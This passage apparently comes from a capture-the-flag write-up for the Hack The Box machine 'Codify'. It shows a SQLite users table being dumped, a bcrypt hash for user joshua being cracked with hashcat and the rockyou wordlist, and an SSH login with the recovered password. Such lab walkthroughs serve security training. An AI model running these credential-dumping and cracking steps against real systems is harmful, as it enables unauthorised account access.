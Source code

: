 ```bash
svc@codify:/var/www/contact$ sqlite3 tickets.db
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .tables
tickets  users
sqlite> .headers on
sqlite> .mode columns
sqlite> select * from users;
id  username  password
--  --------  ------------------------------------------------------------
3   joshua    $2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

### Crack bcrypt hashes from users table

```bash
┌──(bravosec㉿fsociety)-[~/htb/Codify/loot]
└─$ vi tickets.db.users
3   joshua    $2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Codify/loot]
└─$ cat tickets.db.users|awk '{print $2":"$3}'|tee tickets.db.users.hash
joshua:$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Codify/loot]
└─$ hashcat tickets.db.users.hash /opt/wordlists/rockyou.txt --user -m 3200 

┌──(bravosec㉿fsociety)-[~/htb/Codify/loot]
└─$ hashcat tickets.db.users.hash /opt/wordlists/rockyou.txt --user -m 3200 --show
joshua:$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
```

### SSH as joshua

```bash
┌──(bravosec㉿fsociety)-[~/htb/Codify/loot]
└─$ cssh joshua@codify.htb 'spongebob1'
Warning: Permanently added 'codify.htb' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Nov  5 07:11:20 AM UTC 2023

  System load:                      0.04150390625
  Usage of /:                       69.3% of 6.50GB
  Memory usage:                     32%
  Swap usage:                       0%
  Processes:                        256
  Users logged in:                  0
  IPv4 address for br-030a38808dbf: 172.18.0.1
  IPv4 address for br-5ab86a4e40d0: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.129.48.58
  IPv6 address for eth0:            dead:beef::250:56ff:feb9:db04


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.
```